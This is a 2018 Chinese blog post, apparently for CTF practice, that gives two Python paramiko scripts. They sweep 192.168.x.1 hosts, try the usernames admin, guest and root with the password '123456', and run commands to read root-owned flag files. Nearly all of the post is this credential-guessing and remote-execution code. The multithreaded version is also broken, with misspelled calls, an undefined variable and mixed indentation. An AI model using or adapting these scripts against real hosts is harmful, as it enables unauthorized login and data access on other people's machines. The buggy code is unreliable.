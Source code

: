 ```yaml
---
title: Python-SSH批量登陆并执行命令
date: 2018-05-04
tag: python
layout: post
---
```



##直接上代码
 
``` python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
from time import ctime
usernm = ["admin","guest","root"]
passwd = "123456"
def ssh():
	for i in range(1,254):
		for user in usernm:
			try:
			    host = "192.168.%s.1"%i
			    s=paramiko.SSHClient()
			    #创建ssh对象
			    s.load_system_host_keys()
			    s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
			    #自动加载主机密钥 yes\no
			    s.connect(hostname=host,username=user,password=passwd)
			    stdin,stdout,stderr = s.exec_command('cat /root/flagvalue.txt')
                print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,user,ctime())
			    dd = stdout.read()
                print dd
			    stdin,stdout,stderr = s.exec_command('exit')
			    s.close
                if dd != None:
	                dd = None
	                break
	       except:
		       pass
print ssh()

```

> 跨网段批量登陆时速度明显会变慢

下面时运行结果图：
![运行结果](https://img-blog.csdn.net/20180504092159976?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)


#多线程版本

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
import threading
from time import ctime,sleep 
def ssh():
    usernm = ["admin","guest","root"]
	ip = "192.168.%s.1"%i
	for user in usernm:
                try:
					s=paramiko.SSHClient()	
					s.load_system_host_keys()
					s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
					s.connect(hostname=ip,username=user,password='123456')
					stdin,stdout,stderr = s.exec_command('cat /root/flag*')
                    print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,uer,ctime())
					dd = stdout.read()
                    print dd
                            
					stdin,stdout,stderr = s.exec_command('exit')
					s.close
                    if dd != None:
                       dd = None
                       break
                except:
                    pass

for i in range(100,200):
        a=threading.thread(target=ssh,arg=())
        sleep(0.1)
		a.strat()
```	


运行效果：
![多线程](https://img-blog.csdn.net/20180504165634332?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
![showcase](/assets/images/2018/lockshowcase.gif)
